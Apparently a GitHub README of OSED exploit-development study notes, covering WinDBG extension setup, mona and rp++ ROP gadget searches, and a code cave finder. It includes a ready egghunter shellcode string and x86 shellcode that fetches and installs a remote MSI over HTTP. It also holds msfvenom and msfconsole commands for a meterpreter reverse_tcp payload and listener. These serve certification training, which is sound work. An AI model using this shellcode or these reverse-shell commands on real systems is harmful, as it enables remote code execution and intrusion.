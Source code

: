 # OSED
## Narly
* Put narly.dll in C:\Program Files\Windows Kits\10\Debuggers\x86\winext\
![Alt text](Images/image-2.png)

## WinDBG GUI
* Load Workspace from File
![Alt text](Images/image.png)
![Alt text](Images/image-1.png)

## ROP++
* Run rp-win.exe
```
rp-win.exe --file narly.dll -r 5 --bad-bytes 00,01 > rop.txt
```
![Alt text](Images/image-3.png)

## Mona
1. Install python-2.7.17.msi
2. Install vcredist_x86.exe
3. Put pykd.pyd in C:\Program Files\Windows Kits\10\Debuggers\x86\winext\
4. Put windbglib.py in C:\Program Files\Windows Kits\10\Debuggers\x86\
5. Put mona.py in C:\Program Files\Windows Kits\10\Debuggers\x86\
6. Open cmd.exe with Administrator Privilege
```
cd "C:\Program Files\Common Files\Microsoft Shared\VC\"
regsvr32 /s msdia90.dll
```
7. Set Folder Permission

![Alt text](Images/image-5.png)
8. Start Mona
```
.load pykd.pyd
!py mona
!py mona.py rop -m *.dll -cp nonull
!py mona.py rop -m *.dll -cp -cpb '\x00\x3b'
```
![Alt text](Images/image-4.png)

## filter-ropfile.py
Can used for refrence, but the ROP-q1 and ROP-q2 are not full list
```
python3 filter-ropfile.py rop.txt                                              
```
![Alt text](Images/image-6.png)
![Alt text](Images/image-7.png)



## Code-caver.py
* Can used for finding code cave (a RX location of bunch of 0s)
* From noptech Github repository (https://raw.githubusercontent.com/nop-tech/code_caver/main/code_caver.py)
```
0:000> !py code_caver.py 55100000 55107000 
Code Caver
[*] Scanning for code caves in the address range 0x55100000 to 0x55107000

[!] Code cave found at address 55102d3a with a size of 704 bytes

[*] DONE
```
![alt text](Images/image-8.png)


## Egghunter.py
* Can used for crafting egghunter shellcode
* From epi052 Github repository (https://raw.githubusercontent.com/epi052/osed-scripts/main/egghunter.py)
```
└─$ python3 egghunter.py -t GFHKGFHK -b \x00\x09\x0A
[+] Egghunter assembly code + coresponding bytes
        or dx, 0x0fff           0x66 0x81 0xca 0xff 0x0f 
    loop_inc_one:               
        inc edx                 0x42 
    loop_check:                 
        push edx                0x52 
        xor eax, eax            0x31 0xc0 
        add ax, 0x01c6          0x66 0x05 0xc6 0x01 
        int 0x2e                0xcd 0x2e 
        cmp al, 05              0x3c 0x05 
        pop edx                 0x5a 
    loop_check_valid:           
        je loop_inc_page        0x74 0xec 
    is_egg:                     
        mov eax, 0x33643063     0xb8 0x63 0x30 0x64 0x33 
        mov edi, edx            0x89 0xd7 
        scasd                   0xaf 
        jnz loop_inc_one        0x75 0xe7 
    first_half_found:           
        scasd                   0xaf 
        jnz loop_inc_one        0x75 0xe4 
    matched_both_halves:        
        jmp edi                 0xff 0xe7 
                                
[+] egghunter created!
[=]   len: 35 bytes
[=]   tag: c0d3c0d3
[=]   ver: NtAccessCheckAndAuditAlarm

egghunter = b"\x66\x81\xca\xff\x0f\x42\x52\x31\xc0\x66\x05\xc6\x01\xcd\x2e\x3c\x05\x5a\x74\xec\xb8\x63\x30\x64\x33\x89\xd7\xaf\x75\xe7\xaf\x75\xe4\xff\xe7"
                                  
```
![alt text](Images/image-9.png)


## shellcoder.py 
* Used for creating MSF payload. Very useful to create small payload
* Rmb to use the MSF shellcode template to remove bad chars manually rather than using Metasploit
* From epi052 Github repository (https://raw.githubusercontent.com/epi052/osed-scripts/main/shellcoder.py)
```
python3 shellcoder.py --msi -l 192.168.56.142 -p 443 -s
   start:                               
            
       mov ebp, esp                    ;
       add esp, 0xfffff9f0             ;
   find_kernel32:                       
       xor ecx,ecx                     ;
       mov esi,fs:[ecx+30h]            ;
       mov esi,[esi+0Ch]               ;
       mov esi,[esi+1Ch]               ;
   next_module:                         
       mov ebx, [esi+8h]               ;
       mov edi, [esi+20h]              ;
       mov esi, [esi]                  ;
       cmp [edi+12*2], cx              ;
       jne next_module                 ;
   find_function_shorten:               
       jmp find_function_shorten_bnc   ;
   find_function_ret:                   
       pop esi                         ;
       mov [ebp+0x04], esi             ;
       jmp resolve_symbols_kernel32    ;
   find_function_shorten_bnc:           
       call find_function_ret          ;
   find_function:                       
       pushad                          ;
       mov eax, [ebx+0x3c]             ;
       mov edi, [ebx+eax+0x78]         ;
       add edi, ebx                    ;
       mov ecx, [edi+0x18]             ;
       mov eax, [edi+0x20]             ;
       add eax, ebx                    ;
       mov [ebp-4], eax                ;
   find_function_loop:                  
       jecxz find_function_finished    ;
       dec ecx                         ;
       mov eax, [ebp-4]                ;
       mov esi, [eax+ecx*4]            ;
       add esi, ebx                    ;
   compute_hash:                        
       xor eax, eax                    ;
       cdq                             ;
       cld                             ;
   compute_hash_again:                  
       lodsb                           ;
       test al, al                     ;
       jz compute_hash_finished        ;
       ror edx, 0x0d                   ;
       add edx, eax                    ;
       jmp compute_hash_again          ;
   compute_hash_finished:               
   find_function_compare:               
       cmp edx, [esp+0x24]             ;
       jnz find_function_loop          ;
       mov edx, [edi+0x24]             ;
       add edx, ebx                    ;
       mov cx, [edx+2*ecx]             ;
       mov edx, [edi+0x1c]             ;
       add edx, ebx                    ;
       mov eax, [edx+4*ecx]            ;
       add eax, ebx                    ;
       mov [esp+0x1c], eax             ;
   find_function_finished:              
       popad                           ;
       ret                             ;
   resolve_symbols_kernel32:            
push 0x78b5b983
       call dword ptr [ebp+0x04]       ;
       mov [ebp+0x10], eax             ;
push 0xec0e4e8e
       call dword ptr [ebp+0x04]       ;
       mov [ebp+0x14], eax             ;
   load_msvcrt:                         
       xor eax, eax                    ;
       push eax                        ;
mov ax, 0x6c6c;push eax;push dword 0x642e7472;push dword 0x6376736d;
       push esp                        ;
       call dword ptr [ebp+0x14]       ;
   resolve_symbols_msvcrt:              
       mov ebx, eax                    ;
push 0x692fada7
       call dword ptr [ebp+0x04]       ;
       mov [ebp+0x18], eax             ;
   call_system:                         
       xor eax, eax                    ;
       push eax                        ;
push dword 0x20206e71;push dword 0x2f20582f;push dword 0x3334343a;push dword 0x3234312e;push dword 0x36352e38;push dword 0x36312e32;push dword 0x39312f2f;push dword 0x3a707474;push dword 0x6820692f;push dword 0x20636578;push dword 0x6569736d;
       push esp                        ;
       call dword ptr [ebp+0x18]       ;
   exec_shellcode:                      
       xor ecx, ecx                    ;
       push ecx                        ;
       push 0xffffffff                 ;
       call dword ptr [ebp+0x10]       ;
[+] shellcode created!
[=]   len:   253 bytes
[=]   lhost: 192.168.56.142
[=]   lport: 443
[=]   break: breakpoint disabled
[=]   ver:   MSI stager
[=]   Shellcode stored in: shellcode.bin
[=]   help:
         Create msi payload:
                 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.142 LPORT=443 -f msi -o X
         Start http server (hosting the msi file):
                 sudo python -m SimpleHTTPServer 443 
         Start the metasploit listener:
                 sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.56.142; set LPORT 443; exploit"
         Remove bad chars with msfvenom (use --store-shellcode flag): 
                 cat shellcode.bin | msfvenom --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -f python -v shellcode

shellcode = b"\x89\xe5\x81\xc4\xf0\xf9\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\x8b\x7e\x20\x8b\x36\x66\x39\x4f\x18\x75\xf2\xeb\x06\x5e\x89\x75\x04\xeb\x54\xe8\xf5\xff\xff\xff\x60\x8b\x43\x3c\x8b\x7c\x03\x78\x01\xdf\x8b\x4f\x18\x8b\x47\x20\x01\xd8\x89\x45\xfc\xe3\x36\x49\x8b\x45\xfc\x8b\x34\x88\x01\xde\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x24\x75\xdf\x8b\x57\x24\x01\xda\x66\x8b\x0c\x4a\x8b\x57\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89\x44\x24\x1c\x61\xc3\x68\x83\xb9\xb5\x78\xff\x55\x04\x89\x45\x10\x68\x8e\x4e\x0e\xec\xff\x55\x04\x89\x45\x14\x31\xc0\x50\x66\xb8\x6c\x6c\x50\x68\x72\x74\x2e\x64\x68\x6d\x73\x76\x63\x54\xff\x55\x14\x89\xc3\x68\xa7\xad\x2f\x69\xff\x55\x04\x89\x45\x18\x31\xc0\x50\x68\x71\x6e\x20\x20\x68\x2f\x58\x20\x2f\x68\x3a\x34\x34\x33\x68\x2e\x31\x34\x32\x68\x38\x2e\x35\x36\x68\x32\x2e\x31\x36\x68\x2f\x2f\x31\x39\x68\x74\x74\x70\x3a\x68\x2f\x69\x20\x68\x68\x78\x65\x63\x20\x68\x6d\x73\x69\x65\x54\xff\x55\x18\x31\xc9\x51\x6a\xff\xff\x55\x10"
```
![alt text](Images/image-10.png)